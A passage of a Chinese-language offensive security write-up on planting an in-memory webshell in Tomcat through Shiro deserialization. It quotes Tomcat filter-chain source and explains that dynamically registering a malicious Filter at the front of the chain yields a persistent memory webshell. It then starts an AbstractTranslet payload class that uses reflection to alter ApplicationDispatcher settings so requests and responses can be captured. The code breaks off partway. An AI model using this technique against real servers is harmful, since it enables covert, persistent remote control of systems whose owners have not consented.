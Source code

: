 ```java
            }
        } catch (IOException | ServletException | RuntimeException e) {
            throw e;
        } catch (Throwable e) {
            e = ExceptionUtils.unwrapInvocationTargetException(e);
            ExceptionUtils.handleThrowable(e);
            throw new ServletException(sm.getString("filterChain.filter"), e);
        }
        return;
    }

    // We fell off the end of the chain -- call the servlet instance
    try {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest.set(request);
            lastServicedResponse.set(response);
        }
        ...
    } catch (IOException | ServletException | RuntimeException e) {
        throw e;
    } catch (Throwable e) {
        e = ExceptionUtils.unwrapInvocationTargetException(e);
        ExceptionUtils.handleThrowable(e);
        throw new ServletException(sm.getString("filterChain.servlet"), e);
    } finally {
        if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
            lastServicedRequest.set(null);
            lastServicedResponse.set(null);
        }
    }
}
```

先执行完所有的Filter了`filter.doFilter(request, response, this)`

因此，对于shiro的反序列化利用就没办法通过这种方式取到response回显了。

## 0x02 动态注册Filter

没错的，正如标题所说，通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了。

要实现动态注册Filter，需要两个步骤。第一个步骤就是先达到能获取request和response，而第二个步骤是通过request或者response去动态注册Filter

### **步骤一**

首先，我们创建一个继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）的TomcatEchoInject类，在其静态代码块中`反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化`

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEchoInject  extends AbstractTranslet {

  static {
    try {
      /*刚开始反序列化后执行的逻辑*/
      //修改 WRAP_SAME_OBJECT 值为 true
      Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
```